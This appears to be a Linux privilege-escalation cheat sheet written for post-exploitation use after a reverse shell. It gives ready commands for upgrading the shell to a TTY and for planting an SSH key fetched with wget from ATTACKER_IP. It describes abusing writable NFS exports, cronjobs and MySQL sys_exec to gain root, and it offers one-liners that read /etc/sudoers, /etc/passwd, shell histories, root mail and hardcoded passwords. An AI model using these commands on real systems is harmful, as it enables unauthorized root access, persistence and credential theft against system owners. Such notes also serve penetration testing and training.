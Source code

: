 # Linux Privesc

**Post exploitation**

Get a TTY shell after a reverse shell connection

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

Set PATH TERM and SHELL if missing:

```text
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
```

Add public key to authorized keys:

```text
$ echo $(wget https://ATTACKER_IP/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys
```

### Linux Privesc

Things to look: Miss-configured services \(cronjobs\), incorrect file permissions \(exportfs, sudo\), miss-configured environment \($PATH\), binary with SUID bit, software or OS with known vulnerabilities.

First try simple sudo:

```text
$ sudo su -
```

What can we run with sudo?

```text
$ sudo -l
```

Try su as all users and the username as password

What services are running as root?:

```text
$ ps aux | grep root
```

Look for vulnerable/privileged components such as: mysql, sudo, udev, python

If **/etc/exports** if writable, you can add an NFS entry or change and existing entry adding the **no\_root\_squash** flag to a root directory, put a binary with SUID bit on, and get root.

If there is a **cronjob** that runs as run but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

The following command will list processes running by root, permissions and NFS exports.

```text
$ echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null
```

Use netstat to find other machines connected

```text
$ netstat -ano
```

Command to skip ignored lines in config files

```text
$ alias nonempty="egrep -v '^[ \t]*#|^$'"
```

If Mysql is running as root, you can run commands using **sys\_exec\(\)**. For instance, to add user to sudoers:

```text
sys_exec('usermod -a -G admin username')
```

More about mysql:

```text
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```

Find linux distribution & version

```text
$ cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;
```

Architecture

```text
$ cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release
```

Environment variables

```text
$ cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set
```

Find printers

```text
$ lpstat -a
```

Find apps installed;

```text
$ ls -alh /usr/bin/; ls -alh /sbin/; dpkg -l; rpm -qa; ls -alh /var/cache/apt/archivesO; ls -alh /var/cache/yum/*;
```

Find writable configuration files

```text
$ find /etc/ -writable -type f 2>/dev/null
```

Miss-configured services

```text
$ cat /etc/syslog.conf; cat /etc/chttp.conf; cat /etc/lighttpd.conf; cat /etc/cups/cupsd.conf; cat /etc/inetd.conf; cat /etc/apache2/apache2.conf; cat /etc/my.conf; cat /etc/httpd/conf/httpd.conf; cat /opt/lampp/etc/httpd.conf; ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
```

Scheduled jobs

```text
$ crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny
```

Grep hardcoded passwords

```text
$ grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```

if web server run in web root:

```text
$ grep "localhost" ./ -R
```

Network configuration

```text
$ /sbin/ifconfig -a; cat /etc/network/interfaces; cat /etc/sysconfig/network; cat /etc/resolv.conf; cat /etc/sysconfig/network; cat /etc/networks; iptables -L; hostname; dnsdomainname
```

List other users home directories

```text
$ ls -ahlR /root/; ls -ahlR /home/
```

User bash history

```text
$ cat ~/.bash_history; cat ~/.nano_history; cat ~/.atftp_history; cat ~/.mysql_history; cat ~/.php_history
```

User mails

```text
$ cat ~/.bashrc; cat ~/.profile; cat /var/mail/root; cat /var/spool/mail/root
```

Find interesting binaries

```text
$ find / -name wget; find / -name nc*; find / -name netcat*; find / -name tftp*; find / -name ftp
```

Mounted filesystems

```text
$ mount; df -h; cat /etc/fstab
```

Look for binaries with the SUID or GUID bits set.

```text
$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
$ find / -perm -1000 -type d 2>/dev/null
$ find / -perm -g=s -type f 2>/dev/null
```

Find other uses in the system

```text
 $id; who; w; last; cat /etc/passwd | cut -d: -f1; echo 'sudoers:'; cat /etc/sudoers; sudo -l
```

